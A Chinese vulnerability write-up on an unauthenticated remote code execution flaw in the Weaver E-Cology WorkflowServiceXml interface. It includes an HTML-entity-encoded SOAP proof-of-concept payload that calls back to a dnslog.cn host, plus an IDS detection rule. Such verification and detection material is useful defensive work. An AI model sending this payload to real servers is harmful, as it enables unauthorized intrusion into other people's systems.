

## 泛微 E-Cology WorkflowServiceXml 远程代码执行漏洞

### 0X 01、漏洞描述

泛微E-cology OA系统的WorkflowServiceXml接口可被未授权访问，攻击者调用该接口，可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程代码执行

### 0X 02、漏洞验证

Target + **/services%20/WorkflowServiceXml**

**Post_Data**

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
    <web:string>
&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#109;&#97;&#112;&gt;&#13;&#10;&#32;&#32;&#9;&#9;&#9;&lt;&#101;&#110;&#116;&#114;&#121;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#9;&#9;&#9;&lt;&#117;&#114;&#108;&gt;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#53;&#98;&#50;&#101;&#110;&#115;&#46;&#100;&#110;&#115;&#108;&#111;&#103;&#46;&#99;&#110;&lt;&#47;&#117;&#114;&#108;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#9;&#9;&#9;&lt;&#115;&#116;&#114;&#105;&#110;&#103;&gt;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#53;&#98;&#50;&#101;&#110;&#115;&#46;&#100;&#110;&#115;&#108;&#111;&#103;&#46;&#99;&#110;&lt;&#47;&#115;&#116;&#114;&#105;&#110;&#103;&gt;&#13;&#10;&#32;&#9;&#9;&#9;&#32;&lt;&#47;&#101;&#110;&#116;&#114;&#121;&gt;&#13;&#10;&#9;&lt;&#47;&#109;&#97;&#112;&gt;//(此处需要HTML Decode解密即可查看Payload，攻击时同样也需要加密HTML Encode)
    </web:string>
        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

<font color=red >如下图：</font>




### 0X 03、漏洞检测相关

**规则如下：**

```ruby
alert http any any -> $EXTERNAL_NET $HTTP_PORTS (msg:"泛微 E-Cology WorkflowServiceXml 远程代码执行漏洞"; flow:established,to_server; content:"doCreateWorkflowRequest"; nocase; pcre:"/services\x2520/i"; content:"POST"; http_method; nocase; content:"WorkflowServiceXml"; http_uri; nocase; classtype:web-application-attack; sid:2020233; rev:1;)
```

### 0X 04、 验证如下


